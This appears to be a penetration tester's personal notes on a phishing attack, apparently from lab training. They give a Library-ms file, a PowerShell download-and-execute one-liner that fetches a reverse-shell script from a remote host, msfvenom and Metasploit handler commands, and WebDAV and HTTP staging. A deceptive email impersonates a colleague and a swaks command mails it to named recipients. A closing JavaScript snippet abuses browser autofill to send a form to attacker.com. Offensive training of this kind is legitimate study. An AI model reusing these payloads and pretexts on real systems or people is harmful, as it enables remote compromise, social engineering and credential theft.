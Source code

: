 <% tp.file.rename("1_phishing")%>


## Creating the Payloads
- 1st stage: config.Library-ms
  This opens our remotely hosted 2nd stage dropper like it was a local folder
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://HIP</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- 2nd stage (autoconfig.lnk)
```powershell
powershell.exe -NoExit -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.163:8000/revshell.ps1'); revshell"
```

- 3rd stage
```bash
msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.45.163 LPORT=4444 NOEXIT -f raw -o revshell.ps1
```
>  MUST remove the gibberish from the beginning and end of the file, otherwise the payload won't work

## Setup C2

- Host the 2nd stage via webdav (shell 1)
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root .
```

- Create a copy of the library and use that to transfer those two files to kali
> Always keep an unused version of this library file as it might get unusable once opened

- Host the 3rd stage via HTTP (shell 2)
```bash
python3 -m http.server 8000
```

- Receive reverse shell (shell 3)
```bash
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/powershell_reverse_tcp; set LHOST $hip; set LPORT $hport; set ExitOnSession false; run -j"
```

## Send Phish
- Example contents for body.txt
```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```

- Shell 4
```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --body @body.txt --header "Subject: Staging Script" --suppress-data --server $ip_mailserver [-au $username -ap $password]
```


# Abuse Browser Autofill
```
await fetch('/users/logout')
let r = await fetch('/users')
document.body.innerHTML = await r.text()
history.replaceState(null, null,'/loginlol')
Form.action = '[https://attacker.com](https://attacker.com)' // dosnt work bc of csp :(
```
